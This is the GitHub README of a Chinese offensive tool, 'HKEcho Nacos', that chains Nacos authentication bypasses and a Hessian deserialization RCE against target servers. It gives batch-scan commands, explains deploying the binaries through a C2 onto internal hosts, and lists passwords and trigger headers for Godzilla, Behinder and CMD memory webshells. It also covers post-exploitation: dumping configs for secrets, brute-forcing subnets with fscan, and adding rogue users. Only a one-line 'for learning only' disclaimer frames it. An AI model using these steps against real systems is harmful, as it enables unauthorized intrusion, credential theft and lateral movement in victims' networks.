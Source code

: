 # HKEcho Nacos快速利用工具 v0.1

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
```

工具文件夹中HKEcho_Nacos.exe，nacosleak.exe均已通过upx压缩加壳减小体积。担心后门可自行编译或前往原项目地址下载。

## 原理

本工具支持检测以下漏洞：

```
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测nacos默认口令
2、任意用户添加
3、任意用户添加UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认JWT任意用户添加
6、JWT_Secret_Key硬编码绕过
7、Identity硬编码绕过
8、QVD-2023-6271身份认证绕过
一旦某个漏洞获取账号密码后，会调用a1phaboy师傅写的nacosleak读取配置文件

9、Nacos_Jraft_Hessian反序列化漏洞
程序会调用c0olw师傅写的NacosRce打一遍Jraft_Hessian反序列化漏洞（本工具在调用这个NacosRce工具前会判断Java环境，若不存在，则告警不执行）
```

## 安装

```
pip install -r requirements.txt
```

## 食用

```
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个URL:http://127.0.0.1:8848
  -f FILENAME  批量检测,包含URL的文本文件
```

**1、单个目标检测：**

```
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

![image-20231114180219893](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114180219893.png)

**2、批量目标检测**：

新建txt文件，一行放一个Nacos的URL

```
python HKEcho_Nacos.py -f target.txt
```

![image-20231114191212752](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114191212752.png)

**3、特殊场景下使用**

注意：HKEcho_Nacos.exe命令行界面在win11下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传python打包的HKEcho_Nacos.exe到C2上使用，注意，单纯上传HKEcho_Nacos.exe运行，会对内网目标nacos添加一个账号，不会对目标进行配置文件导出和检测Nacos_Jraft_Hessian反序列化漏洞。若想导出配置文件，可单独上传nacosleak.exe进行读取。

![image-20231115095419466](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095419466.png)

![image-20231115095310757](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095310757.png)

或者如下图直接将HKEcho_Nacos.exe与nacosleak.exe通过C2上传到目标服务器上同一目录下，直接执行HKEcho_Nacos.exe会自动调用nacosleak.exe

![image-20231115095608455](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095608455.png)

同理，若想检测检测Nacos_Jraft_Hessian反序列化漏洞，同理可以将NacosRce压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce太大了。

![image-20231115100233567](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115100233567.png)

## Nacos后利用
### Nacos配置文件
上述利用完成后，会在/results/ip_port/public目录下生成目标站点的配置文件，a1phaboy师傅特别将ak/sk,password关键字提取了出来：
![image-20231114183758207](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114183758207.png)
我们可以在内网可以通过该密码本快速爆破，比如利用fscan等工具
```
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞
一、冰蝎内存马：
```
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
```

二、哥斯拉内存马：
```
1、需要设置请求头x-client-data:godzilla
2、设置Referer:https://www.google.com/
3、路径随意
4、密码是pass 和 key
```

三、CMD内存马：
```
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令
```

#### **后渗透**
后渗透利用pap1rman师傅的哥斯拉nacos后渗透插件-postnacos
MakeToken
![250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b.png)
将生成后的token 保存进浏览器cookie 格式 token:{xxx}
![250532141-60089b8d-fa3d-4584-bc16-90dc5423d486](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250532141-60089b8d-fa3d-4584-bc16-90dc5423d486.png)
**Adduser**
![250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f.png)
添加一个账号后，用nacosleak单独把配置文件读取下来。
```
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境
在github下载有漏洞的版本
https://github.com/alibaba/nacos/releases
![image-20231115102526342](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115102526342.png)
![image-20231115102620390](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115102620390.png)

## 参考链接
致谢：
https://github.com/Pizz33/nacos_vul
https://github.com/c0olw/NacosRce
https://github.com/pap1rman/postnacos
